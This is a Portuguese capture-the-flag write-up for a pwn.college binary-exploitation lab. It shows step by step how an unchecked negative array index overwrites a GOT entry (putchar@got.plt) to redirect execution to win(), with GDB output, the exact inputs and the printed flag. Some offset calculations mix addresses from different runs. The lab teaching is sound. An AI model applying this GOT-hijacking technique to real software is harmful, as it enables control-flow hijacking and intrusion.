






# pwn.college — Now You GOT It Easy (Memory Corruption)
### Intro to Cybersecurity · Orange Belt · Binary Exploitation

> **Autor:** Pedro Tuttman  
> **Plataforma:** [pwn.college](https://pwn.college)  
> **Categoria:** Binary Exploitation — Memory Corruption  
> **Técnicas:** GOT overwrite · Array index out-of-bounds (escrita) · PLT/GOT hijacking · Identificação de função segura para sobrescrita · Análise de registradores no GDB

---

## Descrição do Desafio

O desafio `now-you-got-it-easy` introduz uma vulnerabilidade completamente diferente das anteriores. Em vez de uma variável `flag` na BSS ou um return address para sobrescrever, o programa possui uma **função `win()`** — e o objetivo é fazer o fluxo de execução chegar até ela. O mecanismo de exploração não é um buffer overflow clássico: é um **GOT overwrite**.

O programa expõe um array de hacker numbers na BSS e permite ao usuário **ler e sobrescrever** qualquer índice — sem validação de limites. Além disso, por ser a versão easy, o binário fornece de bandeja:

- O endereço do início do array na BSS
- O endereço da GOT (Global Offset Table)
- O endereço de `win()` (chamado de "FREE LEAK")



```
The array starts at 0x5671694ce7c0, and is 464 bytes long.
The GOT (global offset table) is located at  0x5671694ce000
FREE LEAK: win is located at: 0x5671694caa72
```

---

## Contexto Teórico — PLT e GOT

Para entender a vulnerabilidade, é preciso entender como programas Linux chamam funções de bibliotecas compartilhadas como a `libc`.

Quando um binário chama `puts()`, ele não salta diretamente para o código da `libc` — em vez disso, salta para um **stub na PLT** (`puts@plt`). Esse stub lê um endereço armazenado na **GOT** (`puts@got.plt`) e salta para ele. Na primeira chamada, esse endereço aponta para o dynamic linker, que resolve o endereço real da `puts` na `libc` e o escreve de volta na GOT. Nas chamadas seguintes, o stub na PLT lê o endereço já resolvido e salta diretamente.

```
chamada puts()
     ↓
puts@plt  (stub na PLT)
     ↓ lê endereço em
puts@got.plt  (entrada na GOT)
     ↓ salta para
puts() na libc  (endereço real)
```

**A consequência direta:** se conseguirmos sobrescrever o endereço armazenado em `puts@got.plt` com o endereço de `win()`, então toda chamada subsequente a `puts()` no programa executará `win()` em vez da `puts` real.

---

## Primeira Tentativa — Sobrescrever `puts@got.plt`

### Encontrando o endereço de `puts@got.plt`

Com um breakpoint logo antes da chamada a `puts` dentro de `challenge`, foi possível usar `si` para entrar em `puts@plt` e inspecionar o disassembly. O comentário ao lado do `jmp` revela imediatamente o endereço da entrada na GOT:



```asm
=> puts@plt+0:   endbr64
   puts@plt+4:   bnd jmp QWORD PTR [rip+0x3eed]   # 0x64131e016028 <puts@got.plt>
   puts@plt+11:  nop DWORD PTR [rax+rax*1+0x0]
```

O endereço de `puts@got.plt` é `0x64131e016028`.

### Calculando o offset

```
array_bss   = 0x5671694ce7c0  (início do array, índice 0)
puts@got    = 0x64131e016028

diferença   = array_bss - puts@got = 1944 bytes
índice      = 1944 / 8 = 243  (array de long, 8 bytes por elemento)
```

Como `puts@got.plt` está em endereço **menor** que o array, o índice é **negativo**: `-243`.

### O problema — recursão infinita em `win()`



Ao sobrescrever `puts@got.plt` com o endereço de `win()` e executar fora do GDB, o programa termina com **Segmentation Fault**. O motivo: `win()` também chama `puts()` internamente. Com a GOT corrompida, essa chamada interna lê `puts@got.plt` — que agora aponta para `win()` — e executa `win()` novamente, criando uma **recursão infinita** que destrói a stack.

```
challenge → puts@plt → puts@got.plt → win()
                                        ↓
                               win() chama puts()
                                        ↓
                               puts@plt → puts@got.plt → win()
                                        ↓
                               win() chama puts() → ... → SIGSEGV
```

A solução é encontrar uma função que seja chamada por `challenge` mas **não** seja chamada por `win()`.

---

## Segunda Tentativa — Sobrescrever `putchar@got.plt`

### Identificando a função correta

Analisando as chamadas feitas por `challenge` no GDB, foi identificada uma chamada a `putchar` — função que `win()` não utiliza. Seguindo o mesmo processo: breakpoint antes do `call putchar@plt`, `si` para entrar no stub, e leitura do comentário no `jmp`:



```asm
=> putchar@plt+0:   endbr64
   putchar@plt+4:   bnd jmp QWORD PTR [rip+0x3efd]   # 0x59f55e954018 <putchar@got.plt>
   putchar@plt+11:  nop DWORD PTR [rax+rax*1+0x0]
```

O endereço de `putchar@got.plt` é `0x59f55e954018`.

### Calculando o offset

```
array_bss      = 0x5cb9011707c0  (início do array, índice 0)
putchar@got    = 0x59f55e954018  (mas endereços mudam por ASLR — o offset é fixo)

diferença      = 1960 bytes
índice         = 1960 / 8 = 245
```

Como `putchar@got.plt` está em endereço menor que o array, o índice é **negativo**: `-245`.

### Identificando o formato de entrada esperado

O programa pede um valor para substituir o número lido. Para saber qual formato de entrada era esperado, foi colocado um breakpoint na chamada da função de leitura do valor (`scanf` ou equivalente) e inspecionado o `$rdi`, que aponta para a format string:



```
rdi    0x5aaf4068a3f0    → "%lld"
```

A format string é `%lld` — o programa espera um **long long decimal**. Isso significa que o endereço de `win()` precisa ser fornecido convertido para decimal.

### Convertendo o endereço de `win()` para decimal

O binário fornece o endereço de `win()` a cada execução (FREE LEAK). Basta converter:

```
win() = 0x5cb90116ca72
      = 101949656975986 (decimal)
```

---

## Executando o Exploit

Com todas as peças em mãos, o exploit é executado **fora do GDB** — pois o debugger dropa as permissões do processo, impedindo a leitura do arquivo de flag mesmo com o exploit funcionando corretamente.

Os inputs fornecidos ao programa:

1. **Índice para leitura:** `-245` → lê o valor atual de `putchar@got.plt`
2. **Valor de substituição:** endereço de `win()` em decimal → sobrescreve `putchar@got.plt`



```
Which number would you like to view? -245
You have selected index -245, which is -1960 bytes into the array.
Your hacker number is 5cb90116c030
What number would you like to replace it with? 101949656975986
The program's memory status:
- the array starts at 0x7fffcac4ac90
Your hacker number is 1
- the address of win() is 0x5cb90116ca72.
You win! Here is your flag:
pwn.college{gEpSx-w-H-jbt0FrWKrbNjL_M5-.0lN4cDOxwCOzYTNxEzW}
```

Quando `challenge` chama `putchar()` após a sobrescrita, o stub em `putchar@plt` lê o endereço em `putchar@got.plt` — que agora aponta para `win()` — e a flag é impressa.

---

## Resumo do Fluxo de Exploração

```
1. Binário fornece: endereço do array, endereço da GOT, endereço de win() (FREE LEAK)
2. GOT overwrite → sobrescrever entrada na GOT redireciona chamadas de função para win()
3. Tentativa 1: puts@got.plt → índice -243
   → win() também chama puts() → recursão infinita → SIGSEGV
4. Solução: encontrar função chamada por challenge mas não por win() → putchar
5. GDB → break antes de call putchar@plt → si → disas putchar@plt
   → comentário no jmp revela putchar@got.plt
6. GDB → break no scanf → rdi = "%lld" → entrada esperada em long long decimal
7. offset: (array - putchar@got) / 8 = 1960 / 8 = 245 → índice = -245
8. win() em decimal: 0x5cb90116ca72 = 101949656975986
9. Rodar fora do GDB (debugger dropa permissões)
10. Índice -245 → sobrescrever putchar@got.plt com win() → challenge chama putchar → executa win() → flag
```

---

## Comparação com os Desafios Anteriores

| | anomalous-array (easy/hard) | now-you-got-it-easy |
|---|---|---|
| Objetivo | Ler memória fora do array | Escrever memória fora do array |
| Alvo da escrita | — | Entrada na GOT (`putchar@got.plt`) |
| Mecânica central | Array OOB leitura (índice negativo) | Array OOB escrita (índice negativo) |
| Flag | Variável na BSS/stack | Impressa por `win()` |
| ASLR | ✅ Presente | ✅ Presente (offsets fixos compensam) |
| PIE | ✅ Presente | ✅ Presente |
| Endereços fornecidos | ✅ Sim (easy) / ❌ Não (hard) | ✅ Sim (array, GOT, win) |

